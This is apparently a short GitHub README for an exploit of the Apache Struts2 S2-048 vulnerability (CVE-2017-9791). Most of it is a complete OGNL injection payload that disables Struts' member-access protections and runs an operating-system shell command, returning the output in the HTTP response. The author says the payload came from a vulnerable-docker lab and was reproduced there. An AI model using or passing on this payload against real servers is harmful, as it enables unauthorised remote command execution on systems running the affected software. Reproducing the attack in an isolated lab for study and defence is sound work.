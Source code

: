 # s2-048
Exp for s2-048, CVE-2017-9791.
```
  ______     _______     ____   ___  _ _____     ___ _____ ___  _ 
 / ___\ \   / / ____|   |___ \ / _ \/ |___  |   / _ \___  / _ \/ |
| |    \ \ / /|  _| _____ __) | | | | |  / /___| (_) | / / (_) | |
| |___  \ V / | |__|_____/ __/| |_| | | / /_____\__, |/ / \__, | |
 \____|  \_/  |_____|   |_____|\___/|_|/_/        /_//_/    /_/|_|

```

poc:
```
%{(#_='multipart/form-data').(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#cmd='id').(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win'))).(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'/bin/bash','-c',#cmd})).(#p=new java.lang.ProcessBuilder(#cmds)).(#p.redirectErrorStream(true)).(#process=#p.start()).(#ros=(@org.apache.struts2.ServletActionContext@getResponse().getOutputStream())).(@org.apache.commons.io.IOUtils@copy(#process.getInputStream(),#ros)).(#ros.flush())}
```
This is a  poc from https://github.com/Loneyers/vuldocker/tree/master/struts2/s2-048, I build a docker and successfully get the same result, but there is still some errors in my python script. 



